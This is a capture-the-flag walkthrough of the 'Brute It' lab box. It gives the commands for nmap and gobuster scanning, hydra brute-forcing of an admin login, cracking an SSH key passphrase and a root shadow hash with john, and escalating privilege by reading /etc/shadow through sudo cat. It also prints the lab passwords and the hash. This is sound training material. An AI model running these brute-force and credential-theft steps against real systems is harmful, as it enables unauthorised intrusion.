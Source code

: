 ## Step 1: Reconnaissance

- do an nmap scan with service/version detection
- `nmap -sV 10.10.65.214`
- ![Pasted image 20250714151216.png](https://github.com/gernia/CTF_writeups/blob/main/Brute%20It/imgs/Pasted%20image%2020250714151216.png)

Now we can answer the following questions:
- **How many ports are open? - 2**
- **What version of SSH is running? - OpenSSH 7.6p1**
- **What version of Apache is running? - 2.4.29**
- **Which Linux distribution is running?  - Ubuntu**

Search for hidden directories with gobuster.
- `gobuster dir -u 10.10.65.214 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
- the medium wordlist was a bit of an overkill for this task
- ![Pasted image 20250714152537.png](https://github.com/gernia/CTF_writeups/blob/main/Brute%20It/imgs/Pasted%20image%2020250714152537.png)
- **What is the hidden directory? - /admin**

## Step 2: Getting a shell

- by just assuming that the login name will be admin, bruteforce the password with hydra
- `sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.65.214 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=invalid" -V`

- ![Pasted image 20250714153958.png](https://github.com/gernia/CTF_writeups/blob/main/Brute%20It/imgs/Pasted%20image%2020250714153958.png)

- **What is the user:password of the admin panel? - admin:xavier**
- login on the webpage to get the web flag
- on the webpage we can also download a key. Safe it to a file and convert it to a format that john can use with `ssh2john key > hash.txt`
- then crack the hash with john `john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
`
- ![Pasted image 20250714161614.png](https://github.com/gernia/CTF_writeups/blob/main/Brute%20It/imgs/Pasted%20image%2020250714161614.png)

- **What is John's RSA Private Key passphrase? - rockinroll**
- now use the key to login via ssh, use john as login name, because the website said that it is john's key we downloaded
- first make sure that the key has the correct permissions `chmod 600 /path/to/key`
- specify private key to use with `-i`
- `ssh -i key john@10.10.65.214
- the flag is in the user.txt file

## Step 3: Privilege escalation

- see which programs john can run with root permissions with `sudo -l`
- ![Pasted image 20250714163126.png](https://github.com/gernia/CTF_writeups/blob/main/Brute%20It/imgs/Pasted%20image%2020250714163126.png)

- cat can be run with root privileges without a password
- use cat to read the shadow file that contains the password hashes
- the root password hash is at the top between the first two : `$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.`
- ![Pasted image 20250714163210.png](https://github.com/gernia/CTF_writeups/blob/main/Brute%20It/imgs/Pasted%20image%2020250714163210.png)

- save the password hash to a file and crack it with john

- ![Pasted image 20250714163603.png](https://github.com/gernia/CTF_writeups/blob/main/Brute%20It/imgs/Pasted%20image%2020250714163603.png)

- **What is the root's password? - football**
- now use `su` to switch to root `su root`
- the flag is in the root folder in the root.txt file

